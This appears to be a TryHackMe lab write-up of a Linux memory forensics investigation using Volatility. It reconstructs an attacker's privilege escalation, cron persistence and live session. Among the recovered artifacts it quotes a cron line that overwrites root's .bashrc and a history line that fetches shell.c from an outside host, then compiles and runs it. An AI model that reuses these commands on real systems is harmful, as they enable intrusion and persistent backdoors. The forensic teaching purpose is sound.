





# 🐧 Linux Memory Forensics — Privilege Escalation & Persistence Investigation

## 📋 Overview

A memory forensics investigation into a compromised Linux host, using a raw memory capture
(`linux.mem`) analyzed entirely with **Volatility 2.6.1**. The goal was to reconstruct the
full attack timeline from memory alone — no live system access, no disk image — just a
snapshot of RAM and the artifacts it left behind.

The investigation traces an attacker from initial foothold through privilege escalation to
persistence, uncovering a reverse shell, a likely kernel-level exploit chain, cron-based
persistence, and evidence of lateral network activity — all pulled out of volatile memory.

**Type:** Digital Forensics / Memory Analysis
**Platform:** TryHackMe
**Tools:** Volatility 2.6.1, strings, md5sum

---

## 🔎 1. Hunting for Persistence via Cron

Started by enumerating every cron-related file referenced in memory:

```bash
vol.py -f linux.mem --profile="LinuxUbuntu2004x64" linux_enumerate_files | grep -i "cron"
```

This surfaced `/var/spool/cron/crontabs`, `/etc/cron.d`, and other scheduler paths still
resident in memory — a strong signal to check for attacker-planted persistence jobs.

## 📄 2. Pulling a Suspicious File Straight From Memory

Used `linux_find_file` to extract a specific file by its memory offset:

```bash
vol.py -f linux.mem --profile="LinuxUbuntu2004x64" linux_find_file -i 0xffff8903b23667a8 -O root
```

The recovered file contained:

```bash
* * * * * cp /opt/.bashrc /root/.bashrc
```

A cron job silently overwriting root's `.bashrc` every minute with a file from `/opt` — a
classic persistence and backdoor technique disguised as a routine shell config file. 😬

## 🕵️ 3. Reconstructing Shell History From Bash Logger

Recovered command history via a bash logger plugin, revealing the attacker's full session —
from privilege escalation to cleanup:

```bash
su root
sqlite3 users.db
wget 10.0.2.72/shell.c && gcc shell.c -o pkexecc && rm shell.c
./pkexecc
```

This shows the attacker compiling a custom binary named `pkexecc` on the host — the naming
strongly suggests an attempt to exploit `pkexec`, and pairs directly with the binary
analysis in the next step. The history also shows classic cleanup behavior: clearing bash
history, removing `.bash_history`, and adjusting user groups (`gpasswd -d paco lxd`) to
cover tracks. 🧹

## 🧬 4. Fingerprinting the Malicious Binary

Hashed and examined the strings inside the suspicious binary pulled from the host:

```bash
md5sum pkexecc
strings pkexecc
```

The `strings` output shows dynamic linking against `libc.so.6`, GCC compilation markers, and
low-level syscalls (`socket`, `connect`, `execve`) consistent with a compiled exploit or
custom shell binary rather than a legitimate system tool — reinforcing that this was a
locally compiled privilege escalation payload, not a stock binary. ⚙️

## 🌐 5. Confirming Network Activity via Volatility

Checked live network connections captured in the memory image:

```bash
vol.py -f linux.mem --profile="LinuxUbuntu2004x64" linux_netstat | grep -i 10.0.2.72
```

Results showed multiple **ESTABLISHED** connections between the victim host and `10.0.2.72`
over SSH (port 22) and high ephemeral ports, tied to `sshd`, `sh`, `su`, and `bash`
processes — confirming an active, interactive attacker session at the time of capture, not
just a one-off exploit attempt. 🔗

---

## ✅ Findings

- A malicious cron job was planted to persistently overwrite `/root/.bashrc` every minute,
  giving the attacker a durable backdoor mechanism.
- Recovered shell history showed the attacker escalating to root, downloading a payload
  (`shell.c`), compiling it locally into a binary named `pkexecc`, and executing it —
  consistent with exploitation of a `pkexec`-related privilege escalation vulnerability.
- Binary analysis of `pkexecc` confirmed it was a custom-compiled ELF executable rather
  than a legitimate system binary.
- Anti-forensic behavior was observed: clearing bash history, removing log files, and
  modifying user group memberships to reduce visibility.
- Live network connections to `10.0.2.72` confirmed an active, interactive attacker
  session over SSH at the time the memory image was captured.

## 💡 Key Takeaway

Every stage of this attack — the foothold, the privilege escalation exploit, the
persistence mechanism, and the attacker's live session — was reconstructed entirely from a
memory image. No disk forensics were needed. This is a solid reminder of just how much
volatile memory holds onto after an incident, and why capturing RAM early in an investigation
can make or break the ability to reconstruct what actually happened. 🧠

## 🛠️ Skills Demonstrated

`Memory Forensics` `Volatility Framework` `Linux Privilege Escalation Analysis`
`Persistence Mechanism Identification` `Binary/Strings Analysis` `Network Artifact Analysis`

---

## 🖼️ Screenshots

**1. Cron enumeration and file recovery from memory**


**2. Recovered malicious cron job content**


**3. Reconstructed attacker bash history**


**4. Binary hash and strings analysis of pkexecc**


**5. Active network connections via linux_netstat**

